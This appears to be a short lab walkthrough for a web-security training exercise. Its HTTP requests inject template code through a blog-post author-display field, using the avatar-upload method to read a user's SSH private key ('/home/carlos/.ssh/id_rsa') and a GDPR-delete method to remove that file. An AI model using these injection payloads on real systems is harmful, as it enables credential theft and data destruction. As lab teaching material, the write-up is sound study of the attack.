 ```
POST /my-account/avatar HTTP/1.1

Upload Avatar -> test.txt (Contents: test) - It gives error:

PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/plain in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/test.txt', 'text/plain')
#1 {main}
  thrown in /home/carlos/User.php on line 28
```

```
POST /my-account/change-blog-post-author-display HTTP/1.1
...
blog-post-author-display=user.setAvatar('/home/carlos/user.php','image/jpg')&csrf=spkNqnASlalYgtmPvWgbwAlqrjm1OL3q

GET /post?postId=9 HTTP/1.1

GET /avatar?avatar=wiener HTTP/1.1

In the response of GET /post?postId=9 HTTP/1.1

    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }
```

**Solution:**

```
POST /my-account/change-blog-post-author-display HTTP/1.1
...
blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')&csrf=spkNqnASlalYgtmPvWgbwAlqrjm1OL3q

GET /post?postId=9 HTTP/1.1

POST /my-account/change-blog-post-author-display HTTP/1.1
...
blog-post-author-display=user.gdprDelete()&csrf=spkNqnASlalYgtmPvWgbwAlqrjm1OL3q

GET /post?postId=9 HTTP/1.1
```
